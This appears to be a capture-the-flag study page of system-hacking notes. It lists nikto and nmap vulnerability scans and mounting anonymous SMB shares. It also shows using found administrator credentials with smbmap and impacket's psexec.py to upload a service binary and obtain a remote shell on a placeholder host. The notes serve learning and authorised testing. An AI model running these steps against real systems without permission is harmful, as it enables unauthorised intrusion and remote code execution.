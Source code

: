 ```yaml
---
header:
  
layout: single
classes: wide
author_profile: false
categories:
  - Hacking
tags:
  - capture-the-flag
  - hacking
  - cryptography
  - web-security
  - image-forensics
  - Pentesting
  - system-hacking
toc: true
toc_sticky: true
toc_label: "Table of Contents"

---
```


## System Hacking
* To discover the system in the network, use either Nmap or Netdiscover
* To scan for vulnerabilities use nikto.
  * Command to run : `nikto -h <HOST_IP>`
* To scan for vulnerbilities we can use Nmap also.
  * `namp -sV <HOST_IP>`
  * `nmap --script vuln <HOST_IP>`  -- Useful for getting Vulnerabilities on system
  * `nmap -sS -T4 -A -p- <HOST_IP>` -- Useful for All Ports, SYN Scan and OS detection
  * `nmap --script ssl-enum-ciphers -p 443  <HOST_IP>` -- Gives rating for SSL Ciphers
* If port 80 is open, use robots.txt to find any hidden flags.
* If Anonymous SMB is open, we can mount shares like this
  ```
  root@kali:~/CTF# mkdir /mnt/smb
  root@kali:~/CTF# mount -t cifs //<HOST_IP>/Backups /mnt/smb/
  Password for root@//<HOST_IP>/Backups: 
  ```
* If we found Administrator Creds, we can use this method to get root shell
  ```
  root@kali:/opt/impacket/examples# smbmap -u administrator -p password -H <HOST_IP>
  [+] Finding open SMB ports....
  [+] User SMB session establishd on <HOST_IP>...
  [+] IP: <HOST_IP>:445	Name: <HOST_IP>                                      
	 Disk                                                  	Permissions
	 ----                                                  	-----------
	 ADMIN$                                            	READ, WRITE
	 Backups                                           	READ, WRITE
	 C$                                                	READ, WRITE
	 IPC$                                              	READ ONLY
  root@kali:/opt/impacket/examples# python psexec.py administrator@<HOST_IP>
  Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

  Password:
  [*] Requesting shares on <HOST_IP>.....
  [*] Found writable share ADMIN$
  [*] Uploading file tJJmcVQN.exe
  [*] Opening SVCManager on <HOST_IP>.....
  [*] Creating service RKAe on <HOST_IP>....
  [*] Starting service RKAe.....
  [!] Press help for extra shell commands
  ```